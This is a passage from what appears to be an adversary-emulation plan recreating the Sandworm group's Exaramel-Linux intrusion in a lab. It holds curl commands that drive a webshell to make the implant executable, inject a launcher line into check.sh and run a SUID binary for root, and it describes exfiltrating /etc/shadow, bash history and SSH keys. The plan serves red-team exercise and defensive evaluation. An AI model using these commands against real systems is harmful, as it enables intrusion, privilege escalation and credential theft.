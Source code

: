 Confirm 'centreon_module_linux_app64' downloaded successfully:

```bash
curl --insecure "https://10.0.1.5/search.php?cmd=ls+-lsah"
```

Make Exaramel-Linux executable via `chmod`.

```bash
# P.A.S. Webshell has the ability to modify file permissions.

curl --insecure "https://10.0.1.5/search.php?cmd=chmod+755+centreon_module_linux_app64"
```

Insert 1-liner into `/var/www/html/include/tools/check.sh`; the 1-liner executes Exaramel-Linux.

```bash
curl --insecure "https://10.0.1.5/search.php?cmd=echo%20%27%2Fvar%2Fwww%2Fhtml%2Fcentreon_module_linux_app64%20%26%27%20%3E%3E%20%2Fvar%2Fwww%2Fhtml%2Finclude%2Ftools%2Fcheck.sh"
```

Execute SUID binary, `/bin/backup`; this binary executes `check.sh` from the previous step, which causes Exaramel-Linux to be executed with root privileges.

```bash
# Exaramel for Linux can execute commands with high privileges via a specific binary with setuid functionality.

curl --insecure "https://10.0.1.5/search.php?cmd=/bin/backup" &
```

[Source Code](/Resources/suid-binary/suid-binary.c)

:warning: Switch to your controlServer tab; you should have a new callback.

### :microscope: Cited Intelligence

* https://www.justice.gov/opa/press-release/file/1328521/download 

<br>

### Step 14 - Exaramel Linux Persistence

:microphone: `voice track`

During this step, Sandworm establishes crontab and systemd persistence.

Sandworm then exfils /etc/shadow, bash history, and fherbert's SSH keys over the existing C2 channel.

In the next step, Sandworm uses credentials derived from the /etc/shadow file to attack a lateral host.

### :biohazard: Procedures

From your control server tab, split the window horizontally:

```
Right click > Split Horizontally
```
